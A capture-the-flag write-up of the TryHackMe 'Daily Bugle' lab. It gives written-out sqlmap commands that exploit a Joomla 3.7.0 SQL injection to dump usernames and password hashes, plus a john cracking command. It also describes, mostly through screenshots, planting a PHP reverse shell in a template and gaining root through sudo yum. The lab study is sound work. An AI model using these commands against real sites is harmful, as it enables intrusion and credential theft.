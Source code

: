 ```yaml
---
Title: TryHackMe - Daily Bugle
Description: DailyBugle writeup
 - tryhackme
tags: tryhackme joomla sqli oscp yum
---
```


## Summary

Daily Bugle is free box on Tryhackme OSCP learning path. Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.
categories:

## Enumeration/Reconnaissance
![](https://i.imgur.com/tzKm3a6.png)

Here is nmap result, we got three service running.
PORT       Service
22/tcp     ssh
80/tcp     http(Apache)
3306/tcp   mysql(MariaDB)

lets start with port 80 to deep dive.

And we found who rob the Bank
![](https://i.imgur.com/bSR8SzI.png)

To check for intresting directory lets fire up GoBuster.

![](https://i.imgur.com/WwjnMlr.png)

After checking directory we got admin panel.
![](https://i.imgur.com/eR2ePC3.png)

To get more info on joomla, i have used joomscan
![](https://i.imgur.com/YURMF5t.png)

Here nothing seems to be new but we got the joomla version Joomla 3.7.0

Searchsploit shows that joomla version 3.7.0 is vulnerable to sql injection.
![](https://i.imgur.com/2BjGrQb.png)

## Exploit
Here is that sqlmap command vulnerable to joomla 3.7.0
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
Lets start Sqlmap with above command.
![](https://i.imgur.com/ChiMPO1.png)
Here, we have declared cookies. So continue with Yes.
![](https://i.imgur.com/sMOS6iW.png)
To skip test payloads specifice for other database. So continue with Y.
![](https://i.imgur.com/6yZB6d2.png)
We got our vulnearable parameter. so stop testing with N.
![](https://i.imgur.com/DkWP4GN.png)
We got five Vulnerable database. Joomla looks interesting!!!
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables
```
![](https://i.imgur.com/IQprwWV.png)
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --columns
```
Now lets check the columns of Joomla. We got a table "#__users"


![](https://i.imgur.com/9u2jP3c.png)
Lets find out the columns of table "__users".

![](https://i.imgur.com/VlpSAiz.png)
We got five columns.Lets check for username and password.

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c username --dump
```

![](https://i.imgur.com/mpCqnR8.png)
We got the username jonah

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c password --dump
```
![](https://i.imgur.com/sb3qaHV.png)
lets check the password. We got hash
![](https://i.imgur.com/Pbztfh3.jpg)

## Password Cracking
Time to crack the hash. Here, I have used John to crack the hash
```
$ john --wordlist=/user/share/wordlists/rockyou.txt hash.txt
```
![](https://i.imgur.com/bjv8Hte.jpg)

We got the username and password. Lets goto admin panel and logged in.

![](https://i.imgur.com/R9s3ZQy.png)

Here, I got the template to insert the code. We can to insert reverse shell.
![](https://i.imgur.com/6FR9hhW.png)

![](https://i.imgur.com/RXOHVya.png)
## Reverse shell/Connection
Here I have used PentestMonkey Php Reverse-shell.
![](https://i.imgur.com/v8ChQNM.png)

Now, start netcat to listen on port 4444
![](https://i.imgur.com/oqsRAh7.png)

After saving the template. Click on Template Preview to get the reverse shell.
![](https://i.imgur.com/sUrErlE.png)
We got reverse connection in netcat.
![](https://i.imgur.com/Ith2FCR.png)
We got new user.
![](https://i.imgur.com/7SHM0Iq.png)
After searching, i got configuration file in /var/www/html/configuration.php
![](https://i.imgur.com/Nh4usCL.jpg)
So, got username and password of jjameson. lets switch to jjameson
![](https://i.imgur.com/hATkoiv.jpg)
## Privilege Escalation
For privilege Escalation, it was too easy. tried to start with sudo and got it.
sudo -l
![](https://i.imgur.com/hd2x2kz.png)
Now, goto GFTObin for yum
![](https://i.imgur.com/MYP9hKQ.png)
Copy paste this in your shell and boom
![](https://i.imgur.com/VLqdgFL.png)
## Root
we got root access and root.txt
![](https://i.imgur.com/WgPIsfX.jpg)




















